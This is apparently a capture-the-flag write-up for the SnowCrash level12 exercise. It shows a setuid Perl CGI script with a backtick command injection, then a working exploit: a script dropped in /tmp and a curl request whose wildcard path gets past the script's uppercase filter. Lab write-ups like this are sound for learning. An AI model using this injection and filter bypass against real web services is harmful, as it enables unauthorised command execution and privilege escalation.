 
```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

```bash
level12@SnowCrash:~$ file level12.pl 
level12.pl: setuid setgid a perl script, ASCII text executable
```

```perl
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

The script accepts two query parameters, `x` and `y`. The subroutine `t` evaluates the command `egrep "^$xx" /tmp/xd 2>&1`, where the `$xx` variable holds the value of the `x` input. We want to inject code via the `x` parameter to have it executed alongside the grep command.

```perl
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
```

To make our injection works the path of the executed file must be capitalized.


```bash
echo 'getflag > /tmp/pass' > /tmp/RUNME
chmod +x /tmp/RUNME
curl 'localhost:4646?&x=`/*/RUNME`'
cat /tmp/pass
```
